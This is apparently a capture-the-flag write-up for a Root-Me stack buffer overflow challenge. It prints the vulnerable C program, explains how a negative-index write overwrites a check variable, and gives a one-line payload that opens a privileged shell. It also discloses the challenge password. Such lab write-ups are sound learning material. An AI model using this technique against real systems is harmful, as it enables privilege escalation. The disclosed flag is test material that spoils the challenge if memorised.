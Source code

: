 # ELF x86 - Stack buffer overflow basic 3
- Point: 25pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  10 April 2015
- Level: Medium <br><br>
![image](https://user-images.githubusercontent.com/48288606/143521039-c69b3f39-c52e-4551-b2fa-9facc7ca23cf.png)

## Write-up:
This challenge is not required to use **GDB**. Look at the code:

```
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>
 
void shell(void);
 
int main()
{
 
  char buffer[64];
  int check;
  int i = 0;
  int count = 0;
 
  printf("Enter your name: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 64)
        printf("Oh no...Sorry !\n");
      if(check == 0xbffffabc)
        shell();
      else
        {
            read(fileno(stdin),&i,1);
            switch(i)
            {
                case '\n':
                  printf("\a");
                  break;
                case 0x08:
                  count--;
                  printf("\b");
                  break;
                case 0x04:
                  printf("\t");
                  count++;
                  break;
                case 0x90:
                  printf("\a");
                  count++;
                  break;
                default:
                  buffer[count] = i;
                  count++;
                  break;
            }
        }
    }
}
 
void shell(void)
{
  setreuid(geteuid(), geteuid());
  system("/bin/bash");
}
```
We analyze the code, the variable **i** get 1 bytes of "stdin" and execute the below section, we only finish this challenge when we change the value of **check** to **0xbffffabc**<br>
The vulnerable is in the size of **buffer**. But **buffer** is declared before **check** and therefore **check** 's value can't be altered through upper overflow. <br>
![image](https://user-images.githubusercontent.com/48288606/143523511-fe54d69c-7f2b-4320-a4ba-667ce2f90df4.png)<br>

### Solution:
It's possible to make a change in **check** by lower overflow in **buffer** array. It's mean overwriting `buffer[-1]`, `buffer[-2]`,`buffer[-3]` and `buffer[-4]` revalues **check**.
With the program provided, we have 2 main functions:
- Make count increase or decrease by 1 (and print something that we don't care)
```
                case 0x08:
                  count--;
                  printf("\b");
                  break;
```

- Set **buffer** with **i** 's value
```
                default:
                  buffer[count] = i;
                  count++;
                  break;
```
So just enter **i** with **0x08** 4 times and assign the desired value **0xbffffabc** in little endian format.

Payload: `(python -c "print('\x08'*4+'\xbc\xfa\xff\xbf')";cat) | ./ch16`

Password: Sm4shM3ify0uC4n


